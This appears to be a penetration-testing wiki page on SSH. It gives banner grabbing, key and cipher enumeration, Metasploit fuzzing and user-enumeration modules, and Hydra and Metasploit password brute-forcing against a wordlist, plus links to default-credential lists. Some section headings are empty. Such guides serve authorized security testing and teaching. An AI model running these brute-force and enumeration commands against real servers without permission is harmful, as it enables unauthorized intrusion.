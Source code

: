 ```yaml
---
authors: ShutdownRepo
category: infra
---
```


# 🛠️ SSH

## Theory

The SSH protocol (Secure Shell) is used to login from one machine to another securely. It offers several options for strong authentication, as it protects the connections and communications security and integrity with strong encryption. This connection can be used for terminal access, file transfers, and for tunneling other applications.

## Enumeration

### Authentication type

It is possible to enumerate the allowed authentication types with the following command:

```bash
ssh -v 
OpenSSH_8.1p1, OpenSSL 1.1.1d 10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive
```

### Banner Grabbing

Useful to get basic information about the SSH server such as its type and version.

```bash
nc -vn  22
...
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
```

### Server's public SSH key

```bash
ssh-keyscan -t rsa  -p 
```

### Weak Cipher Algorithms

Some auditing tools can help to quikly find the target version and which algorithms are available on the server in order to give recommendations to the customer.

::: tabs

=== sslscan

```bash
sslscan :22
```


=== nmap

```bash
nmap -p22 -n -sV --script ssh2-enum-algos 
```


=== ssh-audit

```bash
ssh-audit -p 22 -4 
```

:::


### SSH fuzzing

Fuzzing the SSH service could help to find vulnerabilities. The automated fuzzing is simple but not very targeted so it usually takes a lot of time and could miss some results.\
The custom and the manual approach is more effective but it takes time to familiarize yourself with the target. Here is an example of a custom fuzzing : [Fuzzing the OpenSSH daemon using AFL](https://github.com/ShutdownRepo/Penetration-Testing-Guides/tree/5140c07692d27c9b3162088ed3aeff1bbbf23d23/servers/abusing-services/www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html).

::: tabs

=== Automated fuzzing

```bash
msfconsole
use auxiliary/fuzzers/ssh/ssh_version_2
set RHOSTS 
run
```

:::


## Attacks

### Weak cryptographic keys

### Authentication bruteforcing

#### User enumeration

```bash
msfconsole
use scanner/ssh/ssh_enumusers
set RHOSTS 
set USER_FILE 
```

#### Password Bruteforcing

::: tabs

=== Hydra

```bash
hydra -l  -s 22 -P   -t 4 ssh
```


=== Metasploit

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set PASS_FILE /usr/share/wordlists/password/rockyou.txt
set RHOSTS 
set STOP_ON_SUCCESS true
set username 
run
```

:::


Some common ssh credentials [here ](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt)and [here](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt).

#### Private key Bruteforcing

## Resources

[https://book.hacktricks.xyz/pentesting/pentesting-ssh](https://book.hacktricks.xyz/pentesting/pentesting-ssh)

[https://community.turgensec.com/ssh-hacking-guide/](https://community.turgensec.com/ssh-hacking-guide/)